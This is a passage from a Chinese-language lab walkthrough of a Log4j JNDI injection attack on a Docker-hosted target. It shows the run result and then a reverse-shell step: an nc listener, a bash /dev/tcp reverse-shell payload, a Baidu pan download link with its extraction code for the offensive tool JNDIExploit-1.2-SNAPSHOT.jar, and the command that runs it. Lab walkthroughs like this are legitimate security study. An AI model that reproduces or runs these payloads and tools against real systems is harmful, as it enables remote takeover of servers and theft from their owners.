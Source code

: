 * 第七步：运行结果。由于docker搭建靶机，只有shell窗口，因此看不到靶机弹出计算器的效果。 

  ![image](漏洞利用\image.png)

* 第八步：反弹shell

攻击机监听本地端口

```bash
nc -lvvp [port]
```

构造payload

使靶机执行：

```bash
bash -i >& /dev/tcp/[ip]/[port] 0>&2
```

①可以使用如上方式的java恶意类执行。

②也可以使用针对JNDI注入开发出来的攻击工具JNDIExploit-1.2-SNAPSHOT.jar ，下载地址如下。

链接：https://pan.baidu.com/s/1pNWfziQWeJ0PVssqSqWPNQ 
提取码：twgp

该工具是一个可执行jar包，可使用如下命令执行。

```bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i [ip]
```
<img src="漏洞利用\log4j (9).png" alt="log4j (9)" style="zoom:61%;" />
